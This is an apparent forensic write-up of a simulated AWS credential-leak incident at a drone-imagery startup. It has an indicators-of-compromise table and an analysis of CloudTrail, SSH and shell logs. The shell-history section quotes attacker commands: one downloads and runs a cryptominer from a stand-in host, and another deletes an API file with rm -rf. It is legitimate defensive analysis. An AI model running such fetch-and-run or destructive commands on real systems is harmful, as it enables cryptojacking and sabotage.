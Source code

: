 \#  DroneCropForensics – Deep-Dive Investigation Notes



---



\##  Initial Discovery \& Context



During routine threat hunting across public repositories, a critical security incident was simulated involving an AgriTech startup leveraging drone technology to capture and process aerial crop imagery.



A `.env` file containing hardcoded AWS credentials was accidentally committed to a developer’s GitHub repository and remained exposed long enough to be harvested by an opportunistic threat actor. 



This incident simulation explores the full kill chain — from credential exposure to cloud compromise, data exfiltration, and service disruption.



The logs were collected from AWS CloudTrail, EC2 SSH sessions, shell command history, and internal drone API access logs to reconstruct the sequence of attacker actions.



---



\##  Indicators of Compromise (IOCs)



| Indicator | Type | Description |

|----------|------|-------------|

| `91.203.119.5` | IP Address | Attacker’s origin IP used for API and SSH access |

| `AKIA1234FAKEKEYYO` | AWS Key | Leaked AWS secret key (redacted) |

| `dronecrop-images` | S3 Bucket | Targeted for crop data exfiltration |

| `/var/www/html/api/upload.php` | File Path | API endpoint deleted by attacker |

| `cryptominer.tar.gz` | Artifact | Suspected malware dropped onto EC2 |



---



\##  Log Analysis Summary



\### \*\*1. aws\_cloudtrail.log\*\*



This log revealed unauthorized usage of AWS APIs by a rogue user (`h4ck3r`) from IP `91.203.119.5`:

\- \*\*`GetObject`\*\* events on the `dronecrop-images` S3 bucket confirm the adversary successfully exfiltrated sensitive agricultural imagery.

\- \*\*`DescribeInstances`\*\* and \*\*`StartInstances`\*\* calls indicate enumeration of EC2 instances and remote activation of a dormant node — a precursor to interactive access via SSH.



These events clearly align with \*\*stage 2: cloud enumeration\*\* and \*\*stage 3: privilege abuse\*\* in the MITRE ATT\&CK cloud matrix.



---



\### \*\*2. auth.log\*\*



The SSH authentication log shows a successful key-based login from the attacker’s IP. The use of public key auth suggests the attacker may have injected their key into the instance via the AWS control plane after compromise.



\- \*\*Login timestamp:\*\* 2025-07-12 05:07 UTC

\- \*\*Session opened using root-level key for user `ubuntu`\*\*

\- \*\*Session duration:\*\* ~4 minutes



This session created the foothold necessary for persistent backdoor access and payload delivery.



---



\### \*\*3. shell\_history.log\*\*



Shell commands executed during the session confirm execution of a mining payload:



```bash

wget http://badsite.example.com/cryptominer.tar.gz

tar -xvzf cryptominer.tar.gz

cd miner

chmod +x run.sh

./run.sh

rm -rf /var/www/html/api/upload.php



